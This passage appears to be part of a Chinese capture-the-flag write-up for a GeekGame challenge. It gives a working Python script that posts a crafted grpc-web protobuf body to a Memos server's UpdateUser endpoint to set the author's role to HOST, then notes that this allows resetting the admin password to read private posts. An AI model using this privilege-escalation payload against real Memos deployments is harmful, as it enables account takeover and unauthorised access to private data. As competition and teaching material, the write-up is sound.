 运行代码
```python
import requests

data =  "\u0000\u0000\u0000\u0000\u0025\n\u0011\n\u0007users/2\u0022\u0004qwer\u0018\u0001\u0012\u0010\n\busername\n\u0004role"


cookies = {
    'anticheat_canary': '<my-canary>',  
    'memos.access-token': '<my-token>',
}

url ='https://prob09-uik8gmxc.geekgame.pku.edu.cn/memos.api.v1.UserService/UpdateUser'

headers = {
    'Content-Type': 'application/grpc-web+proto', 
    "content-length": f"{len(data)}"
}

response = requests.post(url, data=data, cookies=cookies, headers=headers)

print(response)
print('状态码:', response.status_code)
print('响应内容:', response.text)

print(repr(response.text))
```

即可把自己变成 HOST 啦。来看看 HOST 如何为所欲为。

![](img/8-2.png)

嗯，我可以改所有人的密码，那改掉 admin 的密码，即可登录上去查看私有文章了。
